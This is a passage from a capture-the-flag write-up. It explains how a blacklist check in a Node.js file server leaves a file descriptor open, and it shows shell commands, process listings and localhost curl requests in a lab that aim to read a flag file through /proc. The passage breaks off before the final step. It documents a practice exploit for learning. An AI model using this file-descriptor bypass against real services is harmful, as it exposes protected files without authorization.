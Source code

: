 If you notice something weird happens. First the file is opened, then it's checked for filtered word, if the blacklisted word is not inside filename we get back file contents. But what happens if blacklisted word is inside? First file gets opened, filtered and exits. Ok..? So what? **The File Descriptors**

_A file descriptor is an integer that identifies an open file. **File descriptors are used to access files in the operating system**._<br>
_Each file descriptor has a unique number that is assigned to it when the file is opened. This number is used to refer to the file in subsequent operations, such as reading from or writing to the file._<br>
_File descriptors are also used to keep track of the state of a file. **For example, a file descriptor can be used to indicate whether a file is open, closed, or in use**._

So somewhere in the system there's open file descriptor for the flag.txt always in read mode and waiting to be closed. From docker image we know that application runs on Unix and file descriptors in Unix systems can be found in `/proc/{PID}/fd/` directory. 

First lets find descriptor inside the lab.

```bash
└─$ ps aux --forest | grep "node index.js" -B3
user    28540  0.1  0.1  13984  7832 pts/2    Ss   20:29   0:03 |   \_ /usr/bin/zsh
user    50233  3.0  1.4 727272 71000 pts/2    Sl+  21:12   0:02 |   |   \_ npm start
user    50261  0.0  0.0   2584  1536 pts/2    S+   21:12   0:00 |   |       \_ sh -c node index.js
user    50262  1.2  1.2 11132100 59964 pts/2  Sl+  21:12   0:01 |   |           \_ node index.js # <-- 
        ^^^^^ 
        PID

└─$ la /proc/50262/fd/
Permissions Size User Date Modified Name
lrwx------    64 user 27 Aug 21:13   0 -> /dev/pts/2
lrwx------    64 user 27 Aug 21:12   1 -> /dev/pts/2
lrwx------    64 user 27 Aug 21:12   2 -> /dev/pts/2
lrwx------    64 user 27 Aug 21:13   3 -> anon_inode:[eventpoll]
lr-x------    64 user 27 Aug 21:13   4 -> pipe:[118660]
l-wx------    64 user 27 Aug 21:13   5 -> pipe:[118660]
lr-x------    64 user 27 Aug 21:13   6 -> pipe:[118661]
l-wx------    64 user 27 Aug 21:13   7 -> pipe:[118661]
lrwx------    64 user 27 Aug 21:13   8 -> anon_inode:[eventfd]
lrwx------    64 user 27 Aug 21:13   9 -> anon_inode:[eventpoll]
lr-x------    64 user 27 Aug 21:13   10 -> pipe:[119393]
l-wx------    64 user 27 Aug 21:13   11 -> pipe:[119393]
lrwx------    64 user 27 Aug 21:13   12 -> anon_inode:[eventfd]
lrwx------    64 user 27 Aug 21:13   13 -> anon_inode:[eventpoll]
lr-x------    64 user 27 Aug 21:13   14 -> pipe:[118662]
l-wx------    64 user 27 Aug 21:13   15 -> pipe:[118662]
lrwx------    64 user 27 Aug 21:13   16 -> anon_inode:[eventfd]
lrwx------    64 user 27 Aug 21:13   17 -> /dev/pts/2
lr-x------    64 user 27 Aug 21:13   18 -> /dev/null
lrwx------@   64 user 27 Aug 21:13   19 -> socket:[118670]
lrwx------    64 user 27 Aug 21:13   20 -> /dev/pts/2

# Register User
└─$ curl 'localhost:7500/register?user_id=Test&user_password=Test'                      
[+] User 'Test' registered

# Open File
└─$ curl 'localhost:7500/bucket?user_id=Test&user_password=Test&file_path=/tmp/flag.txt'
[No flag for you]     

└─$ la /proc/50262/fd/                                                                     
Permissions Size User Date Modified Name
lrwx------    64 user 27 Aug 21:23   0 -> /dev/pts/2
lrwx------    64 user 27 Aug 21:22   1 -> /dev/pts/2
lrwx------    64 user 27 Aug 21:22   2 -> /dev/pts/2
```